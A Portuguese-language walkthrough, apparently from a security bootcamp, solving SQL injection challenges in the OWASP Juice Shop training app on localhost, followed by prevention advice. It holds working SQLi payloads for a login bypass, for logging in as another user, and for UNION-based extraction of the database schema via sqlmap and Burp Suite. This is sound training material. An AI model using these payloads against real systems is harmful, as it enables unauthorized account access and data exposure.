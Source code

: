```yaml
---

<div align="center">

## SQL Injection

</div>

SQL Injection (SQLi) é uma das vulnerabilidades mais comuns e perigosas em aplicações web. Ela ocorre quando um atacante consegue inserir ou manipular comandos SQL dentro de uma consulta feita ao banco de dados. Isso pode permitir que o atacante acesse, modifique, ou até exclua dados no banco de dados, muitas vezes sem a permissão adequada.

### 1. Login Admin (Login Admin ⭐⭐)

Para verificar se é possível obter acesso administrativo explorando uma vulnerabilidade de SQL Injection, inicie acessando a página de **Login**.

```
http://localhost:3000/#/login
```

Copie e cole o texto a seguir nos campos de **E-mail** e **Senha**.
```
' OR 1 -- -
```

Clique em `Login`. Agora, você deve ser capaz de obter acesso administrativo, mesmo sem possuir as credenciais apropriadas.

![Admin Profile](https://github.com/CamilaSCodes/projeto-3-bootcamp-infosec/blob/main/imagens-vulnerabilidades/Admin%20Profile.png)

### 2. Login Bender (Login Bender ⭐⭐⭐)

Vamos tentar explorar a vulnerabilidade de SQL Injection (SQLi) para acessar a conta de um usuário comum.

Na **Página Inicial** do Juice Shop, ao clicar em um produto, você pode acessar os feedbacks deixados por outros usuários, bem como o e-mail deles. Por exemplo, no produto **Banana Juice (1000ml)**, você encontrará o e-mail do usuário Bender.

```
bender@juice-sh.op
```

Sabendo disso, acesse a página de **Login**. No campo de **E-mail**, insira o e-mail de Bender com "'--" no final: `bender@juice-sh.op'--`. 

Em seguida, digite qualquer senha e clique em `Login`.

Assim, você deverá conseguir acessar a conta de Bender, mesmo que tenha utilizado uma senha aleatória.

![Bender](https://github.com/CamilaSCodes/projeto-3-bootcamp-infosec/blob/main/imagens-vulnerabilidades/Bender.png)

### 3. Esquema Do Banco De Dados (Database Schema ⭐⭐⭐)

No Kali Linux, abra o **Burp Suite** e, no menu **Proxy**, clique em `Open browser`. Em seguida, inicie uma **Pesquisa** no Juice Shop.

```
http://localhost:3000/#/search
```

Retorne ao **Burp Suite**, clique em `Intercept is off` e volte ao Browser. Atualize a página.

Novamente, retorne ao **Burp** e clique em `Forward` até que a primeira linha do texto se torne `GET /rest/products/search?q= HTTP/1.1`.

Após isso, precisamos identificar o tipo do banco de dados e localizar possíveis pontos de vulnerabilidade. Para essa tarefa, utilizaremos o **sqlmap**.

Abra o terminal do Kali Linux e execute o comando abaixo.

```
sqlmap -u http://localhost:3000/rest/products/search?q= --level=3 –risk=3 –time-sec=2
```

Retorne ao **Burp Suite**, navegue até o menu **Repeater** e altere a primeira linha do texto conforme o que foi encontrado pelo **sqlmap**.

```
GET /rest/products/search?q=’)) UNION SELECT ‘1’ FROM sqlite_master-- HTTP/1.1
```

Agora, clique em `Send` para confirmar o código 400. 

Em seguida, volte ao Browser e complete a URL encontrada.

```
http://localhost:3000/rest/products/search?q=’)) UNION SELECT ‘1’ FROM sqlite_master--
```

Você receberá um erro informando: _SELECTs to the left and right of UNION ALL do not have the same number of result columns_. 

Para resolver esse erro, é necessário adicionar colunas ao SELECT até que ambos os lados da cláusula UNION ALL tenham o mesmo número de colunas. Continue adicionando colunas até que o erro esteja resolvido. No caso, adicione colunas até o número 9.

```
http://localhost:3000/rest/products/search?q=’)) UNION SELECT ‘1’,‘2’, ‘3’, ‘4’, ‘5’, ‘6’, ‘7’, ‘8’, ‘9’ FROM sqlite_master--
```

O erro foi resolvido e agora os dados estão visíveis. Para finalizar, basta substituir o " '1' " na URL por "sql".

```
http://localhost:3000/rest/products/search?q=’)) UNION SELECT sql,‘2’, ‘3’, ‘4’, ‘5’, ‘6’, ‘7’, ‘8’, ‘9’ FROM sqlite_master--
```

Aperte `Enter` e todas as informações sobre o esquema do banco de dados estarão visíveis.

![Database Schema](https://github.com/CamilaSCodes/projeto-3-bootcamp-infosec/blob/main/imagens-vulnerabilidades/Database%20Schema.png)

---
```


<div align="center">

### Recomendações

</div>

**1. Use Prepared Statements e Parameterized Queries:** Sempre que possível, utilize consultas parametrizadas. Em vez de construir consultas SQL com strings, utilize métodos que permitem passar parâmetros de forma segura.

**2. Use Stored Procedures:** Em alguns casos, stored procedures (procedimentos armazenados) podem ajudar a prevenir SQL injection, desde que não construam consultas dinâmicas com concatenação de strings.

**3. Validação e Sanitização de Entrada:** Valide e sanitiza todas as entradas do usuário. Certifique-se de que os dados estão no formato esperado antes de processá-los. Use listas de permissões para aceitar apenas valores esperados e rejeitar entradas maliciosas.

**4. Limitar Privilégios do Banco de Dados:** Configure o banco de dados para que as contas de usuário tenham apenas os privilégios necessários. Não permita que a aplicação se conecte com uma conta que tenha permissões administrativas, a menos que seja estritamente necessário.

---

